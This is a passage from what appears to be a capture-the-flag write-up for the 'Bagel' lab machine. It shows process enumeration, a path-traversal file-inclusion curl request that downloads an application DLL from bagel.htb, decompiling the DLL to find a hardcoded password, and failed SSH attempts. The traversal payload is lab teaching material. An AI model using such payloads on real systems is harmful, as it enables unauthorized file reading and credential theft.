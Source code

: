 I ran it and found where the application was located.

```bash
$ ./get_processes.py
1 - /usr/lib/systemd/systemdrhgb--switched-root--system--deserialize35
759 - /usr/lib/systemd/systemd-journald
772 - /usr/lib/systemd/systemd-udevd
851 - /sbin/auditd
852 - /sbin/auditd
853 - /usr/lib/systemd/systemd-oomd

...

890 - dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
892 - python3/home/developer/app/app.py

...

923 - dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll
924 - dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll

...
```

I used the LFI to download it.

```bash
curl "http://bagel.htb:8000/?page=../../../../opt/bagel/bin/Debug/net6.0/bagel.dll" -o bagel.dll
```

I then launched a Windows VM and used [dnSpy](https://github.com/dnSpy/dnSpy) to read the .NET code.

The first thing that caught my eyes was a password in the DB class.

![DB](/assets/images/2023/03/Bagel/ClassDB.png "DB")

I tried to SSH as both users. But as the comment from the Python file said, I needed an SSH key to connect.

```bash
$ ssh phil@target
phil@target: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).

$ ssh developer@target
developer@target: Permission denied (publickey,gssapi-keyex,gssapi-with-mic).
```
